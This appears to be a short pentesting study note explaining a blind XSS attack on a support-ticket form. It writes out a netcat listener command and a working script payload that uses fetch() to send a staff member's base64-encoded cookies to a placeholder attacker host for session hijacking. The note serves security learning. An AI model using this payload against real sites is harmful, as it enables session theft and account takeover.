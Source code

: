 ```yaml
---
title: Practical XSS example
---
```


Let's say we want to exploit a [[cybersecurity/knowledge/pentesting/blind-xss]] vulnerability we've found.

We have a Support Ticket system in which we may create tickets, which content `textarea` field is vulnerable to [[cybersecurity/knowledge/pentesting/XSS]].

We know we're able to run JavaScript code, but we don't have access to the content on our own, so we can't list anything. But we can expand the [[cybersecurity/knowledge/glossary/payload]] to send sensitive content to our own server using [[cybersecurity/knowledge/tools/netcat]].

Because we're dealing with Support Ticket system, it's reasonable to assume that a staff member will also view this ticket which we could get to execute JavaScript.

Some helpful information to extract from another user would be their cookies, which we could use to elevate our privileges by hijacking their login session.

To do this, our payload will need to extract the user's cookie and exfiltrate it to another webserver server of our choice. Firstly, we'll need to set up a listening server to receive the information:

```shell-session
$ nc -nlvp 9001
```

Now that we've set up the method of receiving the exfiltrated information, we build the payload:

`</textarea><script>fetch('http://{URL_OR_IP:PORT}?cookie=' + btoa(document.cookie) );</script>`

> [!tip] `btoa()` encodes the victim's cookies with base64.

Once the user opens a ticket, we can decode the cookies.
